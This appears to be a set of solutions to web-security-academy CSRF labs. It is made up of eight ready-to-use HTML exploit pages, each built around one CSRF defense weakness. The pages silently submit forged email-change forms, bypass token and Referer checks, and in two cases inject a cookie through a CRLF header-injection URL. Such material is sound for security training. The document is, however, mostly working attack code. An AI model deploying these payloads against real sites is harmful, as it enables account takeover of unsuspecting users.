 # Cross-site request forgery (CSRF)

## CSRF vulnerability with no defenses
```html
<html>
  <body>
    <form action="https://ac711fd11f4a145080cf065d007d0000.web-security-academy.net/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token validation depends on request method
*Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.*
```html
<html>
  <body>
    <form action="https://ac821f841ea7fc638025526d00e80028.web-security-academy.net/email/change" method="GET">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Validation of CSRF token depends on token being present
*Some applications correctly validate the token when it is present but skip the validation if the token is omitted.*
```html
<html>
  <body>
    <form action="https://ac4a1f6c1e26373580a1293100d10042.web-security-academy.net/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token is not tied to user session
*Some applications do not validate that the token belongs to the same session as the user who is making the request.
Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.*
```html
<html>
  <body>
    <form action="https://ac951fd61fbca61f80cd57e100bf002d.web-security-academy.net/email/change" method="POST">
      <!-- Attacker's token -->
      <input required type="hidden" name="csrf" value="nvYjyCnkZg9lxPdk0jUwfsYsM7IGqZP5">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token is tied to non-session cookie
*In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the
same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks,
one for session handling and one for CSRF protection, which are not integrated together.*
```html
<!-- Cookie csrfKey works as session ID here. It's app weakness. -->
<html>
  <body>
    <form action="https://ac131f731e467c88807003ba01eb0021.web-security-academy.net/email/change" method="POST">
      <!-- Attacker's token -->
      <input required type="hidden" name="csrf" value="YKm0bbE4NCHbFlmEt77LfeZPzlSLYY5r"/>
      <input type="hidden" name="email" value="test@meme.com" />
    </form>
    <!-- Vulnerability which allows an attacker to inject a cookie to victim.  -->
    <img src="https://ac131f731e467c88807003ba01eb0021.web-security-academy.net//?search=test%0d%0aSet-Cookie:%20csrfKey=kE4no0fY9JeJvK9KSGzoZrIYZ7PTubzQ" onerror="document.forms[0].submit()">
  </body>
</html
```

## CSRF where token is duplicated in cookie
*In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of
tokens that have been issued, but instead duplicate each token within a cookie and a request parameter.
When the subsequent request is validated, the application simply verifies that the token submitted in the
request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defense
against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state.*
```html
<html>
  <body>
    <form action="https://ac251fc31f9c6869805c480f00090062.web-security-academy.net/email/change" method="POST">
      <input required type="hidden" name="csrf" value="myCsrfToken"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <!-- Vulnerability which allows an attacker to inject a cookie to victim. -->
    <img src="https://ac251fc31f9c6869805c480f00090062.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=myCsrfToken" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF where Referer validation depends on header being present
*Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.*
```html
<html>
  <head>
    <meta name="referrer" content="never">
  </head>
  <body>
    <form action="https://ac341ff21e634bca80a3b4fa00840005.web-security-academy.net/email/change" method="POST">
      <input required type="hidden" name="csrf" value="myCsrfToken"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <img src="1" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF with broken Referer validation
*Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application
simply validates that the Referer contains its own domain name, then the attacker can place the required value
elsewhere in the URL.*
```html
<html>
  <body>
    <form action="https://ac5b1f021ef24bb18010b59d00cf0004.web-security-academy.net/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      history.pushState("", "", "/ac5b1f021ef24bb18010b59d00cf0004.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>
